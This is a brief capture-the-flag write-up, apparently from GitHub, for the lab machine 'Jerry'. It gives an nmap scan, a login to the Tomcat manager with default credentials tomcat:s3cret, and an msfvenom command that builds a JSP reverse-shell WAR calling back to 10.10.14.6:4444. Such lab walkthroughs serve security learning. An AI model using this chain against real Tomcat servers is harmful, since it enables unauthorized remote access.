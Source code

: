 Jerry without metasploit

![Jerry](https://user-images.githubusercontent.com/55708909/91583665-2a631680-e96f-11ea-8965-2fd133a841ef.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Jerry -p- 10.10.10.95

![Jerry_nmap](https://user-images.githubusercontent.com/55708909/91584745-bf1a4400-e970-11ea-87cb-a6670ddf4346.png)

As we have only one port to enumerate i will roger that 
.
Port 8080 seems to have directory manager/html

it will ask for credentials first cut the login panel and there you will fing login credentials and after that loging in with credentials tomcat:s3cret

![Jerry_login](https://user-images.githubusercontent.com/55708909/91584367-284d8780-e970-11ea-8c08-f8103b9584a2.png)

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f war > shell.war

Then execute the payload by clicking on file and we have a shell here.

![Jerry_shell](https://user-images.githubusercontent.com/55708909/91585001-19b3a000-e971-11ea-96ae-a6b1da85532a.png)




